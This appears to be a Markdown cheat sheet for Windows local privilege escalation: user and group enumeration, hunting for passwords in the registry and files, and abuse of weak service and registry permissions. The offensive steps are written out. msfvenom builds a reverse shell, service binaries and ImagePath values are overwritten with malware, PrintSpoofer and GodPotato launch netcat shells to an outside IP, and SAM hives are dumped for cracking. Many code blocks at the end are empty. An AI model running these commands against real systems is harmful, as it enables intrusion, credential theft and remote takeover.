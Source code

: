 


###

```
whoami /groups
net accounts
net user
net user <USERNAME>
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember <GROUP-NAME>
```

## 🔹Check for Credentials🔹

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
findstr /si password *.xml *.ini *.txt
dir /s *pass* == *cred* == *vnc* == *.config*

```



## 🔹ENV variables🔹

```
Get-ChildItem
Env:$env:PATH
```

## 🔹File permissions🔹

```
icacls FILE
```


## 🔹Acccess Permission🔹
```
accesschk.exe /accepteula -dqv "C:\Python27"
cacls "C:\Python27"
```

# ⭐ Services ⭐
- Is there a service that runs as SYSTEM but is writable by all logged-on users?  (NT AUTHORITY\INTERACTIVE)

## 🔸Manage Service🔸
```
Get-Service
Get-Service | Select-Object Displayname,Status,ServiceName,Can*
sc.exe query
sc.exe query | select-string service_name

# Binary Path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}


sc.exe stop <SERVICE>
sc.exe start <SERVICE>

# Is SERVICE_START_NAME = LocalSystem? -> SYSTEM Privileges?
# Check if writable by all logged-on users (NT AUTHORITY\INTERACTIVE)
sc.exe qc <SERVICE>
sc.exe delete <SERVICE>

# Check permissions
sc.exe sdshow <SERVICE> 

# Change service configuration
sc.exe config <SERVICE> binPath="C:\Users\Quickemu\Downloads\malicious.exe"

# Add New Service
sc.exe create <SERVICE-NAME> binPath="<PATH-TO-EXECUTABLE>"
```

## 🔸Weak Permissins on Service🔸

 Use the `accesschk64' program to check if we have privileges over that process.

 Remember: Services are processes and processes require .exe


| Permission            | Description                                              |
|-----------------------|----------------------------------------------------------|
| SERVICE_ALL_ACCESS    | Can do anything.                                         |
| SERVICE_CHANGE_CONFIG | Can reconfigure the service binary.                      |
| WRITE DAC             | Can reconfigure permissions, leading to SERVICE_CHANGE_CONFIG. |
| WRITE_OWNER           | Can become owner, reconfigure permissions.               |
| GENERIC_WRITE         | Inherits SERVICE_CHANGE_CONFIG                           |
| GENERIC_ALL           | Inherits SERVICE_CHANGE

```
# List all services and the permissions each user level has on them.
accesschk.exe /accepteula -ucqv *

# List permissions for a specific service:
accesschk.exe /accepteula -ucqv Spooler

# List permissions for a specific directory:
accesschk.exe /accepteula -dqv "C:\Users"

# (BINARY_PATH_NAME) file is writable?
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

# Find all weak folder:
accesschk.exe /accepteula -uwdqs Users C:\
accesschk.exe /accepteula -uwdqs "Authenticated Users" C:\

# Find all weak files::
accesschk.exe /accepteula -uwqs Users C:\*.*
accesschk.exe /accepteula -uwqs "Authenticated Users" C:\*.*


# List services which the "Authenticated Users" user group have permissions over
# (remember to check other user groups you are a member of).
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

## 🔸Weak Permission on Service Binary🔸
```
# Get binary path
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# Check configuration of binary
# (F) = Full control
icacls.exe .\simpleService.exe

# If we have (F), we can override it
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.122.1 LPORT=7777 -f exe -o malicious.exe

# Overwrite
cp .\simpleService.exe .\simpleService.exe.bkp
cp .\malicious.exe .\simpleService.exe

# Restart
sc.exe stop SimpleService
sc.exe start SimpleService
```

## 🔸Unquoted Service Path🔸
```
C:\Users\Quickemu\Downloads\Example Directory\Another.exe
C:\Users\Quickemu\Downloads\Example.exe
```

## 🔸Weak Registry Permissions🔸
```
# Is SERVICE_START_NAME = LocalSystem? -> SYSTEM Privileges?
sc.exe qc <SERVICE>

# Check if writable by all logged-on users (NT AUTHORITY\INTERACTIVE)
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

# Overwrite the ImagePath to malicious executable
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\malware.exe /f

# Start
net start regsvc
```


## Permissions

```
# SeImpersonatePrivilege
./PrintSpoofer64.exe -c "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"
./GodPotato-NET2.exe -cmd "C:\Users\leonardo\Desktop\nc64.exe 192.168.122.1 5555 -e cmd"

# SeBackupPrivilege
## Copy SAM and SYSTEM and crack
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```


```

```

## Services

```
Get-Service

# Display specific properties for each service
Get-Service | Select-Object Displayname,Status,ServiceName,Can*

#  Get binary path for each service that is currently running
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

###

```bash

```

